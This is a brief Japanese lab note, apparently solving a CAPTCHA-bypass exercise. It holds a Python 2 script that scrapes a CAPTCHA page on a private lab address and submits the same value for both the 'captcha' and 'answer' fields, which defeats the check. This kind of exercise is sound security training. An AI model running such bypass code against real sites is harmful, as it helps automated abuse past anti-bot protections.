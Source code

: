 ![a47f11109064b34d71be9639ae786f70.png](../../_resources/a47f11109064b34d71be9639ae786f70.png)
![0a8b0f340b165b51f3d7b41d6e3a6b30.png](../../_resources/0a8b0f340b165b51f3d7b41d6e3a6b30.png)

- スクリプトを使用する場合   
```python
import cookielib, urllib2, urllib
from bs4 import BeautifulSoup
import urllib
import webbrowser

url = "http://192.168.100.167/captcha/example2/"
r = urllib.urlopen(url).read()
#soup = BeautifulSoup(r,"lxml")
soup = BeautifulSoup(r,"html")

string = soup.find_all("input", limit=2)
string = str(string)

print string[80:-4]

url = url + "submit?captcha="+string+"&answer="+string+"&submit=Submit+Query" #Answer that the webpage sends to the server to validate, this way the process is automated

# you can also exploit this by placing both "captcha=" and "&answer=" with the same value 


# Open URL in a new tab
webbrowser.open_new_tab(url) # opens in default browser
```